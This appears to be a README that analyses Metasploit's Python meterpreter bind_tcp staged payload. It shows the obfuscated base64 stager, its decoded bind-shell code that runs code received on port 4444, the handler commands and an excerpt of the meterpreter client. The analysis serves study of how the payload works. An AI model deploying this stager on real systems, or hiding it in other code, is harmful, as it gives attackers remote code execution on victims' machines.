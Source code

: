 # Metasploit Python meterpreter/bind_tcp (staged payload)

## Stager

### Generate
```
msf5> use payload/python/meterpreter/bind_tcp
msf5 payload(python/meterpreter/bind_tcp) > generate -f raw -o stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw0NDQ0KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct
b=socket.socket(2,socket.SOCK_STREAM)   # 2 = socket.AF_INET
b.bind(('0.0.0.0',4444))
b.listen(1)                             # 1 = backlog, maximum number of queued connections
s,a=b.accept()
l=struct.unpack('>I',s.recv(4))[0]      # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                             # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                         # provide the socket file descriptor as global var 's' to payload in d
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 127.0.0.1
msf5 exploit(multi/handler) > set rport 4444
msf5 exploit(multi/handler) > exploit
```

The first 4 bytes contain the length of the payload, i.e. 0xd1fb = 53755 bytes.
The python meterpreter client follows (full contents in file `payload.py`).
```
00000000  00 00 d1 fb                                        ....
00000004  23 21 2f 75 73 72 2f 62  69 6e 2f 70 79 74 68 6f   #!/usr/b in/pytho
00000014  6e 0a 69 6d 70 6f 72 74  20 62 69 6e 61 73 63 69   n.import  binasci
00000024  69 0a 69 6d 70 6f 72 74  20 63 6f 64 65 0a 69 6d   i.import  code.im
...
```

Towards the end of the payload, the meterpreter is invocated using the socket
provided by the stager in variable `s`:
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

